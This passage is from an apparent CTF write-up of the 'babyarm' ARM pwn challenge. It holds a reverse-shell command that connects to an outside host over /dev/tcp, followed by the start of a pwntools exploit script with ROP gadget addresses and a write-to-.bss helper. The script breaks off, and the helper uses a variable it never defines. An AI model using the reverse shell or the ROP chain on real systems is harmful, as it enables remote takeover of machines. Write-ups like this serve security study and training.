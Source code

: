 now, in order to get the shell, we can use these string below

    bash -c "bash -i >& /dev/tcp/ccug.gunadarma.ac.id/7777 0>&1"

since I have ssh access from my university CTF club so I can use it for the reverse shell, after writing these string to `.bss`
we can directly call `system()` function it can be easier than using syscall `socket`, 
and this is my final exploit. PS: I am so lazy, so I don't clean up my exploit lol

{% highlight python %}

#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="arm", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/redmaskctf/pwn/babyarm/main")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ['*0x10329']
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return


def writemem(val, addr):
    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += p32(val) # ini 
    p += "AAAA"
    p += p32(addr)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)


def exploit(r):
    # attach(r)
    # raw_input()
    off = 36
    pop_r0_r3 = 0x00034fdc
    pop_r0_r1_r2_r3 = 0x0001e945
    pop_r0_r1_r2_r4 = 0x00017545
    pop_r4 = 0x000103f8
    mov_r0_r4_blx_r5 = 0x000250e8
    str_r1_r3_pop_r4_r5_r6 = 0x00036bb3


    stdin = 0x00073444

    system = 0x00014C10
    fgets = 0x15334

    binsh = 0x0014C10
    bss = 0x00073e80
    p = "A" * off
    